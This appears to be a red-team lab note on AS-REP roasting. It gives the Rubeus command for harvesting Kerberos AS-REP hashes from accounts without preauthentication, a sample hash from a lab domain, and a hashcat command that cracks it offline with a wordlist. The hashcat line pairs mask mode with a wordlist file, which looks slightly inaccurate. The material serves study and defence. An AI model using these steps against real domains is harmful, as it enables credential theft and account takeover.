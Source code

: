 # AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-08-33.png)

Those hashes can then be cracked offline, similarly to how it's done in [T1208: Kerberoasting](t1208-kerberoasting.md).

## Execution

{% code title="attacker@rubeus" %}
```
.\Rubeus.exe asreproast
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-22-24.png)

### Cracking AS-REP Hashes with HashCat

Say this is the hash we get for the potential victim:

```
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```

We need to insert `23` after the `$krb5asrep$` like so:

```
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```

We can then crack it:

{% code title="attacker@kali" %}
```csharp
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-37-56.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-38-14.png)

## References

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" %}

{% embed url="https://jsecurity101.com/2019/IOC-differences-between-Kerberoasting-and-AsRep-Roasting/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}
